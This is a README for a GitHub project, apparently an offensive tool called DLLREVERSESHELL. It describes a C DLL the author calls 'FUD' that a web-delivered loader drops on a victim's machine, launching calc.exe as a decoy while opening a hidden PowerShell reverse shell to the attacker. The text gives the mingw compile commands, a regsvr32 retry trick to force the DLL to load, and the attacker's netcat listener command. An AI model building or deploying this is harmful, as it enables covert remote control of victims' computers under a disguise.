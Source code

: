 # DLLREVERSESHELL
<b>A CUSTOM CODED FUD DLL, CODED IN C , WHEN LOADED , VIA A DECOY WEB-DELIVERY MODULE( FIRING A DECOY PROGRAM), WILL GIVE A REVERSE SHELL (POWERSHELL) FROM THE VICTIM MACHINE TO THE ATTACKER CONSOLE , OVER LAN AND WAN.
</b>

The project comprises of:


<b>. A custom C header file, mingwdll.h </b>
<b>. The Dll C code mingw_dll.c </b>
<b>. The Loader file loader.c , that will invoke a web delivery of the DLL ,to the target machine, load the DLL in the runtime, producing the decoy program for the victim on the foreground, and spawning a connect back reverse shell (powershell) to the attacker, in the back ground </b>

Place the mingwdll.h and mingw_dll.c in the same folder and compile using :

<b>i686-w64-mingw32-gcc -Wall -shared mingw_dll.c -o calc_helper.dll -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc </b>

This will create the FUD DLL <b> calc_helper.dll </b>

File Description:
<b> root@nautilus:~/Desktop/c_code/dll_rsh# file calc_helper.dll
calc_helper.dll: PE32 executable (DLL) (console) Intel 80386 (stripped to external PDB), for MS Windows
</b>

<b><i> Phase 2 </b></i>
Compile the loader.c using <b> i686-w64-mingw32-gcc loader.c -o improved_calc.exe </b>
This will create the PE32 executable improved_calc.exe.

File Description:
<b>improved_calc.exe: PE32 executable (console) Intel 80386, for MS Windows </b>

When the file improved_calc.exe , it might initially throw a Dll load error, thus I have ensured that a second call to regsvr32 is made post a _sleep() function, to ensure the DLL load on runtime.

Post the DLL is loaded , it will fire the decoy , calc.exe and spawn a reverse shell, (netcat listener on port 8080 as defined in the header file { nc -lvp 8080 } ) 

Cheers

#Captain_Nemo

# DLLREVERSESHELL

